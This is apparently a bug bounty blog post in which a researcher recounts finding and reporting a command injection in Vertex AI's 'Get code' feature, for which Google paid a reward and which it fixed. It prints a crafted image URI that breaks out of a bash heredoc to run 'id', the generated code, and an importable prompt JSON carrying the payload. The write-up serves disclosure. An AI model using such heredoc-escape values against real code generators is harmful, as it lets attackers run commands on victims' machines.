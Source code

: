 ```yaml
---
title: "My first bug in Google Cloud: Command injection in Vertex AI"
permalink: /bug_vertex_ai/
date: 2025-07-01 00:00:00 -0500
last_modified_at: 2025-07-01 00:00:00 -0500
---
```


# My first bug in Google Cloud: Command injection in Vertex AI

### The beginning

\> Looking at Google's VRP rewards table, Google main products look interesting. \
\> I’ve heard those products are really hardened though. \
\> I wonder whether command injections still appear or not there… \
\> They seem like a nice choice to hack on \
\> Sure, they are hardened, but I can do it! \
\> And if I get good at those, I can find really cool stuff =) \
\> Therefore, I’ll focus on those.

> The thought lasted for some time…

\> This looks really cool: [Protecting Large Language Models](https://bughunters.google.com/blog/5679863572070400/protecting-large-language-models) \
\> They used some cool tricks and techniques to inject arbitrary commands in Vertex AI via the tuning process. \
\> It seems that bug class still appears.

### The research

> It felt more real than ever… \
> Sometimes these things must be seen before we truly believe they still exist…

\> After checking a feature in Vertex AI called "Create a prompt", it seems it’s for testing prompts with different models. \
\> I could try using images to exfiltrate data, but the chat doesn’t seem to contain sensitive data… \
\> There is also a feature called "Get code" that generates code to call Google APIs using my prompt, but it seems to prevent command injections because it escapes my inputs… =( \
\> I need to get creative, and try more stuff! \
\> There is a product security team reviewing the security of those components, and a ton of bug hunters constantly testing them. \
\> I feel I can't do it. \
\> But if I don't try, I’ll never know. I'll just have fun, treat it like a challenge, and if I don't find a security issue I still learned a ton. 

### The breakthrough

> In hacking, there is that thing that appears at the most unexpected times… \
> just like magic...✨ 

\> YES! IT WORKED. When adding an image to the prompt, it is letting me inject arbitrary commands / code shown in the generated "Get code" content via the image URI! \
\> That's interesting. It seems they weren't escaping the image URIs. \
\> This is the image URI: `http://www.google.com/"\nEOF\nid\n<< EOF\n-` \
\> And the generated code looks like this: 

```bash
cat << EOF \> request.json
{
  "contents": [
    {
      "role": "user",
      "parts": [
        {
          "fileData": {
            "mimeType": "image/jpeg",
            "fileUri": "http://www.google.com/"
EOF
id
<< EOF
-"
          }
        }
      ]
    }
  ]
<..>
```
  
\> It also works with Python generated code. \
\> In the end, it was possible! =) \
\> Mm, I wonder if they will accept it as it is, since the victim would have to copy and paste the malicious content into the chat. \
\> Well, it would be gold if I could achieve it using a file upload, or something like that. \
\> Mm, I'll try to see if I can make it work with the prompt management feature, that allows importing prompts from files. \
\> So, I would need to provide a JSON with some parameters to import the prompt. It might take some time… I should look at the docs. \
\> What if I try exporting the prompt as a JSON file? There's a feature for that, and it could make it easier to test things, especially if I have to make any changes. \
\> So, I have the prompt file ready, and it worked. I'll report the issue using this: 

```json
{
  <..>
  "type": "multimodal_freeform",
  "prompt": {
    "parts": [
      {
        "fileData": {
          "mimeType": "image/jpeg",
          "fileUri": "http://www.google.com/\"\nEOF\nid\n<< EOF\n-"
        }
      }
    ]
  },
  "model": "google/gemini-2.0-flash-001"
}
```

\> Looks solid! 

### Contacting Google

```html
 —--------------------------
|     Report sent          |
|   awaiting triage…       |
 —--------------------------
```
  
\> Google: 🎉 Nice catch!

```html
 —--------------------------
|        Bug filed         |
|      awaiting panel      |
 —--------------------------
```
  
\> Google: Cloud Vulnerability Reward Program panel has decided to issue a reward of $3133.70 for your report. Congratulations!

### The bug resolution

\> Google: We want to thank the researcher for responsibly reporting this issue to Google Cloud. His report has helped to improve our overall security posture and the mitigation is now in production. \
\
Thanks, \
Cote' - Cloud VRP Lead 

### The conclusion

\> It's now fixed and they mitigated it in a timely manner. \
\> I'm going to stick with this program! It's been a great experience so far, and I feel they really value my contributions. \
\> What are you waiting for? Find your vulnz! 
